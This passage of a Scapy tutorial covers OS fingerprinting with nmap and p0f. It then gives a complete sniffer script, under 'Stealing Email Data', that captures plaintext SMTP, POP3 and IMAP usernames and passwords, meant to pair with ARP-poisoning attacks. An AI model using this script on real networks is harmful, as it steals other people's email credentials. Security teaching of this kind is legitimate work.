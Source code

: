 
We also can plot  graphs with the function **plot()** and **graph()**,  and we can generate 3D  plots with **trace3D()**.



### Nice Third Party Modules

[Fingerprinting](http://nmap.org/book/osdetect-fingerprint-format.html) can be made with the **nmap_fp()** module (which comes from [Nmap](http://nmap.org) prior to v4.23):

```python
>>> load_module("nmap")
>>> nmap_fp("192.168.0.114")
```
[Passive OS fingerprinting](http://www.netresec.com/?page=Blog&month=2011-11&post=Passive-OS-Fingerprinting) can be made with the **p0f** module:

```python
>>>> load_module('p0f')
>>>> sniff(prn=prnp0f)
```




-----------
## <a name="email"></a> Stealing Email Data

The idea of this script is to build a sniffer to capture [SMTP](http://en.wikipedia.org/wiki/Simple_Mail_Transfer_Protocol), [POP3](http://en.wikipedia.org/wiki/Post_Office_Protocol), and [IMAP](http://en.wikipedia.org/wiki/Internet_Message_Access_Protocol) credentials. Once we couple this sniffer with some [MITM](http://en.wikipedia.org/wiki/Man-in-the-middle_attack) attack (such as **ARP poisoning), we can steal credentials from other machines in the network.

With this in mind, we write a script that runs a sniffer on all the interfaces, with no filtering. The **sniff**'s **store=0** attribute ensures that the packets are not kept in memory (so we can leave it running):

```python
from scapy.all import *

def packet_callback(packet):
    # check to make sure it has a data payload
    if packet[TCP].payload:
        mail_packet = str(packet[TCP].payload)
        if 'user' in mail_packet.lower() or 'pass' in mail_packet.lower():
            print '[*] Server: %s' % packet[IP].dst
            print '[*] %s' %packet[TCP].payload

sniff(filter="tcp port 110 or tcp port 25 or tcp port 143", prn=packet_callback, store=0)
```

Running this script when loading load some mail client (such as [Thunderbird](https://www.mozilla.org/en-US/thunderbird/)) will allow us to see the login information, if they are sent to the server as plain text.
